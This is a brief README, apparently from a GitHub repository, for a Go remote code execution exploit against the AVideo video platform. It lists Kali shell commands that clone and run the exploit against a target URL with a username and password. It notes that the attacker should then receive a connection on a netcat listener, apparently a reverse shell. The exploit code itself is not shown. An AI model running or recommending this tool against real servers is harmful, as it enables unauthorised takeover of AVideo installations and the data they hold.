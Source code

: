 # AVideo3xploit.go

RCE exploit for [AVideo](https://github.com/WWBN/AVideo/)

```
root@kali:~# go get github.com/fatih/color
root@kali:~# git clone https://github.com/ahussam/AVideo3xploit.git
root@kali:~# cd AVideo3xploit
root@kali:~/AVideo3xploit# go run AVideo3xploit.go http://[target]/avideo/ username password
```

You should get a connection on you nc 

![avideo-5](av-5.png)

